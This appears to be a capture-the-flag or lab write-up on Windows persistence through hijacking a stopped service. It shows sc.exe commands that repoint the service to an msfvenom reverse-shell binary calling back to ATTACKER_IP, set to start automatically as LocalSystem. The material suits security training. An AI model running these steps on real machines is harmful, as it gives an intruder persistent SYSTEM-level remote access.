 #### Reusing existing disabled service instead of creating a new one 

##### 1. Getting the list of available services:
`> sc.exe query state=all`

![](/assets/img/Pasted image 20230107202739.png)

##### 2. Querying a `stopped` service called `THMService3`'s configuration:
`> sc.exe qc THMService3`

![](/assets/img/Pasted image 20230107202846.png)

<u>Three things we care about when using a service for persistence</u>:
- The executable (`BINARY_PATH_NAME`) should point to our payload.
- The service `START_TYPE` should be automatic so that the payload runs without user interaction.
- The `SERVICE_START_NAME`, which is the account under which the service will run, should preferably be set to `LocalSystem` to gain `SYSTEM` privileges.

##### 3. Creating a new reverse shell with `msfvenom`:
`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe`

![](/assets/img/Pasted image 20230107203430.png)

- Create a python server in the attacker's machine so the victim's machine could download the file:

![](/assets/img/Pasted image 20230107201600.png)

![](/assets/img/Pasted image 20230107203511.png)

- Starting the listener on the attacker's machine:

![](/assets/img/Pasted image 20230107203558.png)

##### 4. To reconfigure "`THMservice3`" parameters, we can use this command:
`C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"`

![](/assets/img/Pasted image 20230107203748.png)

##### 5. Querying the service for information:

![](/assets/img/Pasted image 20230107203840.png)

	- Configuration works!

##### 6. Starting the service:
`> sc.exe start THMservice3`

![](/assets/img/Pasted image 20230107203921.png)
